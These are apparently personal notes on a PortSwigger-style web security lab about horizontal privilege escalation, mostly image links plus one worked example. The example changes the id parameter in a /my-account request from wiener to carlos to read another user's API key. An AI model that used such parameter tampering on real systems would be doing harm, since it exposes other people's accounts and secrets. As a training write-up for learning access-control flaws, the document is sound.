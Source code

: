 ![[Pasted image 20220514001023.png]]

![[Pasted image 20220514001101.png]]

![[Pasted image 20220514001145.png]]

![[Pasted image 20220514001213.png]]

![[Pasted image 20220514001248.png]]

![[Pasted image 20220514001323.png]]

![[Pasted image 20220514001352.png]]

### User ID controlled by request parameter
```bash

# This lab has a horizontal privilege escalation vulnerability on the user account page.

# To solve the lab, obtain the API key for the user carlos and submit it as the solution.

# You can log in to your own account using the following credentials: wiener:peter 

Go to: HTTP history
Find:

GET /my-account?id=wiener HTTP/1.1

Response:

HTTP/1.1 200 OK

'Your username is: wiener'

'Your API Key is: WlxRukVW4yBQzQlFs2QMPi6AI0a76GZb'

Send to repeater
Change username "wiener" to "carlos"

GET /my-account?id=carlos HTTP/1.1

HTTP/1.1 200 OK

'Your username is: carlos'

'Your API Key is: FtOCOI8mDBCiQ6y3LkfpyuktADoS0a1E'

```

![[Pasted image 20220514002024.png]]
